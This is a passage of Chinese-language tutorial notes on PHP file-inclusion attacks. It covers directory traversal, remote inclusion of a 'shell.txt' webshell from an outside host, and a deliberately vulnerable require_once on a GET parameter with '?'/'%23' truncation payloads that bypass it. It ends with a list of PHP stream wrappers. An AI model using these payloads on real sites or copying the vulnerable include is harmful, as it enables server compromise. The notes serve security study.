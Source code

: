   针对目录限制

  `?file=~/../phpinfo`这样的代码。其中`~`就是尝试是否可以直接跳转到当前硬盘目录。在某些环境下，可达到遍历当前文件目录

### 二、远程文件包含

```html
?file=[http|https|ftp]://www.bbb.com/shell.txt（可以有三种，http、https、ftp)
```

### 有防御的远程文件包含

```php
<?php 
    $basePath = $_GET['path'];
    require_once $basePath . "/action/m_share.php";  
?>
```

攻击者可以构造类似如下的攻击URL

```html
http://localhost/FIleInclude/index.php?path=http://localhost/test/solution.php?
=http://localhost/FIleInclude/index.php?path=http://localhost/test/solution.php%23
```

产生的原理:

```php+HTML
/?path=http://localhost/test/solution.php?
最终目标应用程序代码实际上执行了:
require_once "http://localhost/test/solution.php?/action/m_share.php";
(注意，这里很巧妙，问号"?"后面的代码被解释成URL的querystring，这也是一种"截断"思想，和%00一样)
攻击者可以在http://localhost/test/solution.php上模拟出相应的路径，从而使之吻合
```

### PHP中的封装协议(伪协议)

[https://www.php.net/manual/zh/wrappers.php](https://www.php.net/manual/zh/wrappers.php)

```php
file:///var/www/html  访问本地文件系统
ftp://<login>:<password>@<ftpserveraddress>   访问FTP(s) URLs
data://  数据流
http:// — 访问 HTTP(s) URLs
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流
zlib:// — 压缩流
data:// — Data (RFC 2397)
glob:// — 查找匹配的文件路径模式
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — 处理交互式的流
```
